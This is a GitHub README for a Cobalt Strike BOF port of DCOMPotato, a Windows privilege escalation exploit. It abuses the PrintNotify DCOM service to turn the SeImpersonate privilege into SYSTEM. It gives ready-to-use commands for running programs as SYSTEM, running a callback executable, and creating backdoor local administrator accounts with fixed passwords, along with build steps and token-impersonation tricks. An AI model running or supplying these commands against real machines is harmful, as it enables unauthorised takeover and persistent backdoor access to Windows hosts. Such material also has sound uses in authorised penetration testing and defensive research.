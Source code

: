 # BOF - DCOMPotato - PrintNotify

BOF version of [DCOMPotato](https://github.com/zcgonvh/DCOMPotato). Obtain SYSTEM privilege with `SeImpersonate` privilege by passing a malicious `IUnknwon` object to DCOM call of PrintNotify.

By default, [ImpersonationLevel](https://learn.microsoft.com/en-us/windows/win32/com/com-impersonation-level-constants) of PrintNotify service, which was run as SYSTEM, set as `RPC_C_IMP_LEVEL_IMPERSONATE` 

````
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost\print
````

### Support

- Support mingw-w64 compiler
- Support CobaltStrike 4.5

### Demo

![image-20240204151456847](img/image-201.png)

### Usage

```
--pprog : program to launch. Default cmd.exe
--pargs : command line argument to pass to program. Default NULL
--pmode : create process call. 1 for CreateProcessWithTokenW. 2 for CreateProcessAsUser. 3 for NetUserAdd. Default 1
```

execute command with `CreateProcessWithTokenW`

```
DCOMPotato --pargs /c whoami /all > C:\temp\whoami.txt
```

execute command with `CreateProcessAsUser`

```
DCOMPotato --pargs /c net user hagrid P@ssw0rd /add --pmode 2
```

execute program with  `CreateProcessWithTokenW`

```
DCOMPotato --pprog C:\temp\callback.exe
```

create local administrator account (hagrid\\P@ss@29hagr!d) with NetUserAdd

```
DCOMPotato --pmode 3
```



### Compile

```sh
sudo apt install gcc-mingw-w64-x86-64 -y
make
```



### Take Away

- You cannot create new object with C++ in Cobalt Strike when loading BOF. You can use struct to implement COM in C instead. Here is a [guide](https://www.codeproject.com/Articles/13601/COM-in-plain-C)
- `==` sign could be overloaded. It was overloaded as `IsEqualGUID` in my case
- Using flag `LOGON_TYPE_NEW_CREDENTIALS` can create a token that can be used for impersonate from `LogonUser` without providing valid credential
- According to the [document](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera), a process that calls `CreateProcessAsUser` require `SE_INCREASE_QUOTA_NAME` and `SE_ASSIGNPRIMARYTOKEN_NAME` privilege.



### References

+ [DCOMPotato](https://github.com/zcgonvh/DCOMPotato)
+ https://github.com/rapid7/metasploit-framework/blob/master/external/source/exploits/ntapphelpcachecontrol/exploit/CaptureImpersonationToken.cpp
+ https://www.codeproject.com/Articles/13601/COM-in-plain-C
+ [MultiPotato](https://github.com/S3cur3Th1sSh1t/MultiPotato)



